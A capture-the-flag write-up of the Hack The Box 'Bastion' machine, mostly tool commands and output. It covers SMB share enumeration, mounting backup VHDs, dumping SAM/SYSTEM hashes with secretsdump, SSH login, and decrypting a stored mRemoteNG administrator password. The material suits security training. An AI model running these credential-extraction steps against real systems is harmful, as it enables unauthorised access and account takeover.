








# Hackthebox - Bastion

- Windows



- [Box on HTB](https://app.hackthebox.com/machines/186)

## Nmap

```bash
Starting Nmap 7.92 ( https://nmap.org ) at 2022-09-17 08:44 EDT
Nmap scan report for 10.10.10.134
Host is up (0.021s latency).
Not shown: 65522 closed tcp ports (reset)
PORT      STATE SERVICE      VERSION
22/tcp    open  ssh          OpenSSH for_Windows_7.9 (protocol 2.0)
| ssh-hostkey: 
|   2048 3a:56:ae:75:3c:78:0e:c8:56:4d:cb:1c:22:bf:45:8a (RSA)
|   256 cc:2e:56:ab:19:97:d5:bb:03:fb:82:cd:63:da:68:01 (ECDSA)
|_  256 93:5f:5d:aa:ca:9f:53:e7:f2:82:e6:64:a8:a3:a0:18 (ED25519)
135/tcp   open  msrpc        Microsoft Windows RPC
139/tcp   open  netbios-ssn  Microsoft Windows netbios-ssn
445/tcp   open  microsoft-ds Windows Server 2016 Standard 14393 microsoft-ds
5985/tcp  open  http         Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
47001/tcp open  http         Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
49664/tcp open  msrpc        Microsoft Windows RPC
49665/tcp open  msrpc        Microsoft Windows RPC
49666/tcp open  msrpc        Microsoft Windows RPC
49667/tcp open  msrpc        Microsoft Windows RPC
49668/tcp open  msrpc        Microsoft Windows RPC
49669/tcp open  msrpc        Microsoft Windows RPC
49670/tcp open  msrpc        Microsoft Windows RPC
No exact OS matches for host (If you know what OS is running on it, see https://nmap.org/submit/ ).
TCP/IP fingerprint:
OS:SCAN(V=7.92%E=4%D=9/17%OT=22%CT=1%CU=44611%PV=Y%DS=2%DC=I%G=Y%TM=6325C1A
OS:9%P=x86_64-pc-linux-gnu)SEQ(SP=106%GCD=1%ISR=10A%TI=I%CI=I%II=I%SS=S%TS=
OS:A)OPS(O1=M539NW8ST11%O2=M539NW8ST11%O3=M539NW8NNT11%O4=M539NW8ST11%O5=M5
OS:39NW8ST11%O6=M539ST11)WIN(W1=2000%W2=2000%W3=2000%W4=2000%W5=2000%W6=200
OS:0)ECN(R=Y%DF=Y%T=80%W=2000%O=M539NW8NNS%CC=Y%Q=)T1(R=Y%DF=Y%T=80%S=O%A=S
OS:+%F=AS%RD=0%Q=)T2(R=Y%DF=Y%T=80%W=0%S=Z%A=S%F=AR%O=%RD=0%Q=)T3(R=Y%DF=Y%
OS:T=80%W=0%S=Z%A=O%F=AR%O=%RD=0%Q=)T4(R=Y%DF=Y%T=80%W=0%S=A%A=O%F=R%O=%RD=
OS:0%Q=)T5(R=Y%DF=Y%T=80%W=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)T6(R=Y%DF=Y%T=80%W=0%
OS:S=A%A=O%F=R%O=%RD=0%Q=)T7(R=Y%DF=Y%T=80%W=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)U1(
OS:R=Y%DF=N%T=80%IPL=164%UN=0%RIPL=G%RID=G%RIPCK=G%RUCK=G%RUD=G)IE(R=Y%DFI=
OS:N%T=80%CD=Z)

Network Distance: 2 hops
Service Info: OSs: Windows, Windows Server 2008 R2 - 2012; CPE: cpe:/o:microsoft:windows

Host script results:
|_clock-skew: mean: -39m58s, deviation: 1h09m14s, median: 0s
| smb2-security-mode: 
|   3.1.1: 
|_    Message signing enabled but not required
| smb-security-mode: 
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
| smb-os-discovery: 
|   OS: Windows Server 2016 Standard 14393 (Windows Server 2016 Standard 6.3)
|   Computer name: Bastion
|   NetBIOS computer name: BASTION\x00
|   Workgroup: WORKGROUP\x00
|_  System time: 2022-09-17T14:46:28+02:00
| smb2-time: 
|   date: 2022-09-17T12:46:29
|_  start_date: 2022-09-17T12:43:20

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 101.62 seconds
```

## HTTP

- While investing SMB we can launch a gobuster scan on the open http ports `gobuster dir -u http://10.10.10.134:47001/ -w /usr/share/wordlists/SecLists/Discovery/Web-Content/directory-list-2.3-big.txt` and `gobuster dir -u http://10.10.10.134:5985/ -w /usr/share/wordlists/SecLists/Discovery/Web-Content/directory-list-2.3-big.txt`
- Nothing here (as the foothold seems to be done through smb really)

## SMB

- Looking at the nmap SMB seems worth investigating

### Enum4linux

```bash
┌──(kali㉿kali)-[~/Documents/hackthebox/bastion]
└─$ enum4linux -a 10.10.10.134             
Starting enum4linux v0.9.1 ( http://labs.portcullis.co.uk/application/enum4linux/ ) on Sat Sep 17 09:00:52 2022

 =========================================( Target Information )=========================================
                                                       
Target ........... 10.10.10.134                                                                                                                   
RID Range ........ 500-550,1000-1050
Username ......... ''
Password ......... ''
Known Usernames .. administrator, guest, krbtgt, domain admins, root, bin, none


 ============================( Enumerating Workgroup/Domain on 10.10.10.134 )============================
                                                                                           
[E] Can't find workgroup/domain                                                                                                                                                                                
 ================================( Nbtstat Information for 10.10.10.134 )================================

Looking up status of 10.10.10.134                                                                                                                 
No reply from 10.10.10.134

 ===================================( Session Check on 10.10.10.134 )===================================
                                               
[E] Server doesn't allow session using username '', password ''.  Aborting remainder of tests.  
```

### smbmap

```bash
┌──(kali㉿kali)-[~/Documents/hackthebox/bastion]
└─$ smbmap -H 10.10.10.134 -u guest               
[+] IP: 10.10.10.134:445        Name: 10.10.10.134                                      
[-] Work[!] Unable to remove test directory at \\10.10.10.134\Backups\QUZAVHPSBI, please remove manually
        Disk                                                    Permissions     Comment
        ----                                                    -----------     -------
        ADMIN$                                                  NO ACCESS       Remote Admin
        Backups                                                 READ, WRITE
        C$                                                      NO ACCESS       Default share
        IPC$                                                    READ ONLY       Remote IPC
```

### smbclient

```
┌──(kali㉿kali)-[~/Documents/hackthebox/bastion]
└─$ smbclient -L \\10.10.10.134                                                                                                                                                                                                          1 ⨯
Password for [WORKGROUP\kali]:

        Sharename       Type      Comment
        ---------       ----      -------
        ADMIN$          Disk      Remote Admin
        Backups         Disk      
        C$              Disk      Default share
        IPC$            IPC       Remote IPC
Reconnecting with SMB1 for workgroup listing.
do_connect: Connection to 10.10.10.134 failed (Error NT_STATUS_RESOURCE_NAME_NOT_FOUND)
Unable to connect with SMB1 -- no workgroup available
```

- We finally are able to connect to a share this way:

```bash
┌──(kali㉿kali)-[~/Documents/hackthebox/bastion]
└─$ smbclient //10.10.10.134/Backups                                                                                                                                                                                                     1 ⨯
Password for [WORKGROUP\kali]:
Try "help" to get a list of possible commands.
smb: \> dir
  .                                   D        0  Sat Sep 17 09:11:08 2022
  ..                                  D        0  Sat Sep 17 09:11:08 2022
  note.txt                           AR      116  Tue Apr 16 06:10:09 2019
  QUZAVHPSBI                          D        0  Sat Sep 17 09:11:08 2022
  SDT65CB.tmp                         A        0  Fri Feb 22 07:43:08 2019
  WindowsImageBackup                 Dn        0  Fri Feb 22 07:44:02 2019

                5638911 blocks of size 4096. 1173319 blocks available
smb: \> 
```

- Let's get the content. We can get everything in a row using this set of commands

```bash
smb: \> mask ""
smb: \> recurse ON
smb: \> prompt OFF
smb: \> mget *
```

- We have to abort this the note says:

```bash
Sysadmins: please don't transfer the entire backup file locally, the VPN to the subsidiary office is too slow.
```

- Big hint to investigate this backup folder
- Let's just have a look around for now
- [Here](https://jakebinstein.com/blog/taking-control-of-a-windowsimagebackup-folder/) is an article by Jake Binstein that is interesting to better understand the folder (Check out the Structure part in the end). That is a start.
- We have an info about the name of the pc and a potential user `L4mpje-PC`
- Looking further in the files we find vhd images. [Here](https://medium.com/@klockw3rk/mounting-vhd-file-on-kali-linux-through-remote-share-f2f9542c1f25) is an article by Samuel Whang on how to mount this type of files

### vhd file

- Following Samuel Whang article, we first create a dir to mount the remote share `sudo mkdir /mnt/remote`
- `sudo mount -t cifs //10.10.10.134/Backups /mnt/remote -o rw` we can mount it. It works  

- Note: I am going to sudo su for the rest of the process
- We navigate where we have the vhd files  

- Let's create a mount point for the first vhd file `mkdir /mnt/vhd1`
- Let's now mount it with guestmount `guestmount --add /mnt/remote/WindowsImageBackup/L4mpje-PC/Backup\ 2019-02-22\ 124351/9b9cfbc3-369e-11e9-a17c-806e6f6e6963.vhd --inspector --ro /mnt/vhd1 -v `
- Let's do the same last step for the 2nd vhd file 
- `mkdir /mnt/vhd2`
- `guestmount --add /mnt/remote/WindowsImageBackup/L4mpje-PC/Backup\ 2019-02-22\ 124351/9b9cfbc4-369e-11e9-a17c-806e6f6e6963.vhd --inspector --ro /mnt/vhd2 -v`
- In my case it worked for the 2nd file only. I am going to inspect it and then trouble shot the 1st file in case (*note: I realized later that one is a boot partition and the other the disk so that is why one of the image is useless for us*)
- Let's copy the SAM, Security and system files in my working directory `cp SAM SECURITY SYSTEM ../../../../../home/kali/Documents/hackthebox/bastion`
- We can use secret dump on them and we get... secrets `python3 /opt/impacket/examples/secretsdump.py local -sam SAM -security SECURITY -system SYSTEM`  

- Let's try the password on ssh
- Also we can not that according to the admin hash we see that it is not stored as an lm hash (blank or null)

## SSH

- Let's try the password we just found on ssh `ssh L4mpje@10.10.10.134` it works, we have a user shell  
  
- We can grab the user flag  
  

## Privesc

- Let's get winpeas in the target. Nothing really
- PowerUp is more verbose. It seems to be dll hijack

```powershell
ModifiablePath    : C:\Users\L4mpje\AppData\Local\Microsoft\WindowsApps                                                                                                                                                                      
IdentityReference : BASTION\L4mpje                                                                                                                                                                                                           
Permissions       : {WriteOwner, Delete, WriteAttributes, Synchronize...}                                                                                                                                                                    
%PATH%            : C:\Users\L4mpje\AppData\Local\Microsoft\WindowsApps                                                                                                                                                                      
Name              : C:\Users\L4mpje\AppData\Local\Microsoft\WindowsApps                                                                                                                                                                      
Check             : %PATH% .dll Hijacks                                                                                                                                                                                                      
AbuseFunction     : Write-HijackDll -DllPath 'C:\Users\L4mpje\AppData\Local\Microsoft\WindowsApps\wlbsctrl.dll' 
```

- I tried the techniques listed [here](https://lisandre.com/archives/13514), however with our current rights nothing works...
- Let's go back to manual enum
```powershell
PS C:\Users\L4mpje> cmd /c echo %PATH%                                                                                                                                                                                                       
C:\Windows\system32;C:\Windows;C:\Windows\System32\Wbem;C:\Windows\System32\WindowsPowerShell\v1.0\;C:\Program Files\OpenSSH-Win                                                                                                             
64;C:\Windows\system32\config\systemprofile\AppData\Local\Microsoft\WindowsApps;C:\Users\L4mpje\AppData\Local\Microsoft\WindowsA                                                                                                             
pps;
```

- In the programs this one is unusual mRemoteNG. We can have a look at the changelog to get the version that seems to be 1.76.11
- After a google search we get [this article](https://vk9-sec.com/exploiting-mremoteng/). So this article turns used this same box as an example... it is a big spoil xD. But in a real context we would have looked in the configuration files anyway and google something like "decrypt mremoteng passwords" or something similar.
- Indeed the file confCons.xml contains a password

```xml
Username="Administrator" Domain="" Password="aEWNFV5uGcjUHF0uS17QTdT9kVqtKCPeoC0Nw5dmaPFjNQ2kt/zO5xDqE4HdVmHAowVRdC7emf7lWWA10dQKiw=="
```
- We can follow step 3 of the article `python3 mremoteng_decrypt.py -s aEWNFV5uGcjUHF0uS17QTdT9kVqtKCPeoC0Nw5dmaPFjNQ2kt/zO5xDqE4HdVmHAowVRdC7emf7lWWA10dQKiw==`
- We get the password

- We can use it to connect in ssh and grab the root flag  
